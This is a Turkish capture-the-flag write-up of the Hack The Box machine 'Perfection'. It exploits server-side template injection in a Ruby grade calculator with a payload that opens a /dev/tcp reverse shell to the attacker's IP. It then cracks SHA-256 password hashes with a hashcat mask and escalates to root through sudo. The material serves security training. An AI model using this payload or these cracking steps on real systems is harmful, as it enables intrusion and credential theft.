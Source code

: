 ```yaml
---

title: 🟢 HTB - Perfection
author: Acivik
date: 2024-07-06 11:00:00 +0300 
categories: [CTF, Hack The Box]
tags: [hackthebox, ctf, hacking, writeup, perfection, walktrough, easy, linux]

---
```


![https://i.ibb.co/vLLfnK3/Perfection.png](https://i.ibb.co/vLLfnK3/Perfection.png)

---

# <span style="color:#AA0E1C"><b># Reconnaissance</b></span>

## <span style="color:#0096FF">Nmap</span>

nmap taraması 22 ssh ve 80 http portu olmak üzere 2 adet açık port bildirir.

```bash
**┌──(root㉿kali)-[~/HTB/perfection]
└─# nmap -p22,80 10.10.11.253 -sVC -Pn --min-rate=1000 -oN openports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 00:55 EDT
Nmap scan report for 10.10.11.253 (10.10.11.253)
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.89 seconds

┌──(root㉿kali)-[~/HTB/perfection]
└─#**
```

OpenSSH sürümüne bakacak olursak muhtemelen Ubuntu Jammy 22.04LTS çalışıyor.

# <span style="color:#AA0E1C"><b># Enumeration</b></span>

## <span style="color:#0096FF">Web Sitesi</span>

![https://i.ibb.co/3ThBc5j/resim-2024-06-28-075946022.png](https://i.ibb.co/3ThBc5j/resim-2024-06-28-075946022.png)

Öğrenciler için basit bir hesaplama işlemi yapan web sayfası.

Sunucunun response yanıtındaki başlıklar şu şekilde:

```bash
┌──(root㉿kali)-[~/HTB/perfection]
└─# curl -I http://10.10.11.253/
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 28 Jun 2024 06:10:14 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 3842
Connection: keep-alive
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
```

Http servisi sağlayan bir ruby kütüphanesi kullanılıyor.

Web sayfasındaki hesaplayıcı ise şu şekilde:

![https://i.ibb.co/N6bZxs0/image.png](https://i.ibb.co/N6bZxs0/image.png)

# <span style="color:#AA0E1C"><b># Foothold - Shell as susan</b>

Gönderdiğim requesti burp aracı üzerinden inceliyorum

![https://i.ibb.co/6v4zR5v/image.png](https://i.ibb.co/6v4zR5v/image.png)

Gönderilen parametreler sonuç olarak sunuluyor. Bu noktada SSTI zafiyetini test etmek istiyorum. Hatırlarsanız sunucu ruby kütüphanesi kullanıyordu bu yüzden ruby’e uygun payloadlar deniyorum.

![https://i.ibb.co/X45LZTj/image.png](https://i.ibb.co/X45LZTj/image.png)

Zararlı input olarak algıladı. Bazı bypass teknikleri deniyorum.

![https://i.ibb.co/tC9npkW/image.png](https://i.ibb.co/tC9npkW/image.png)

Zafiyeti tespit etmiş oldum. Artık reverse shell almaya çalışabilirim.

![https://i.ibb.co/tC9npkW/image.png](https://i.ibb.co/tC9npkW/image.png)

`test%0A<%= system("bash -c 'exec bash -i &>/dev/tcp/10.10.14.3/9001 <&1'") %>`

Payloadı html ile encode edersek başarılı bir şekilde shell alabilirim.

```bash
┌──(root㉿kali)-[~/HTB/perfection]
└─# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.253] 53696
bash: cannot set terminal process group (1028): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ 
```

# <span style="color:#AA0E1C"><b># Privilege Escalation: susan → root</b></span>

Susan kullanıcısından shell aldım. Home dizini içerisindeki dosyaları inceliyorum.

```bash
susan@perfection:~/Migration$ pwd
/home/susan/Migration
susan@perfection:~/Migration$ ls
pupilpath_credentials.db
susan@perfection:~/Migration$ strings pupilpath_credentials.db 
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
susan@perfection:~/Migration$
```

Bulunan db dosyasını açtığımızda kullanıcı isimleri ve hash benzeri ifadeler karşılıyor bizleri

```bash
susan@perfection:/var/mail$ pwd
/var/mail
susan@perfection:/var/mail$ ls -l
total 4
-rw-r----- 1 root susan 625 May 14  2023 susan
susan@perfection:/var/mail$ cat susan 
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
susan@perfection:/var/mail$
```

Mail klasörü içerisinde hashin nasıl bir algoritmaya sahip olduğunu açıklayan bir mesaj var.

Hashcat kullanarak bunu çözebiliriz.

```bash
┌──(root㉿kali)-[~/HTB/perfection]
└─# hashcat -a 0 -m 1400 hash "susan_nasus_?d?d?d?d?d?d?d?d?d" --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

Susan kullanıcısına ait parolayı elde ettikten sonra `sudo -l` komutu ile neler çalıştırabileceğimizi kontrol ediyorum.

```bash
susan@perfection:/var/mail$ sudo -l
[sudo] password for susan: 
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:/var/mail$ sudo su
root@perfection:/var/mail# whoami
root
root@perfection:/var/mail# id
uid=0(root) gid=0(root) groups=0(root)
root@perfection:/var/mail#
```

Sudo ile tüm komutları çalıştırmamıza izin veriliyor. Bu durumda root olmak için önümde hiç bir engel yok. Gayet kolaydı 🙂

---

# Çözüm Videosu - Youtube
[![HackTheBox - Perfection Çözümü](https://img.youtube.com/vi/cnmP24QiGLc/0.jpg)](https://www.youtube.com/watch?v=cnmP24QiGLc)

---

